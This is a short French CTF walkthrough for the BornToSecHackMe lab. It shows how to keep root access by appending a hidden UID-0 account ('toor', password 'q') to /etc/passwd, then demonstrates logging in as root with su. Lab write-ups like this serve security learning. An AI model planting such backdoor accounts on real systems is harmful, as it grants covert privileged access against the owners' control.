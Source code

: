 ## BONUS1

Ce premier bonus est aussi simple que bonjour. Pour pouvoir tout simplement de nouveau se connecter sur la machine en tant que root nous allons tout simplement rajouter un user dans le fichier /etc/passwd, caché entre tous les users avec les privileges root et un password simple:

Pour cela il faudra bien evidemment deja etre connecté en tant que root afin de pouvoir ecrire sur le fichier comme on veut.

```
toor:fi86Ixhn/lTi2:0:0:pwned:/root:/bin/bash // Ici le mdp correspond a 'q'
```

De ce fait quand nous retournerons sur l'user laurie nous pourrons nous relog en tant que root grace a la combinaison toor/q

```
laurie@BornToSecHackMe:~$ su toor
Password:
root@BornToSecHackMe:/home/laurie# id
uid=0(root) gid=0(root) groups=0(root)
root@BornToSecHackMe:/home/laurie#
```

Super simple
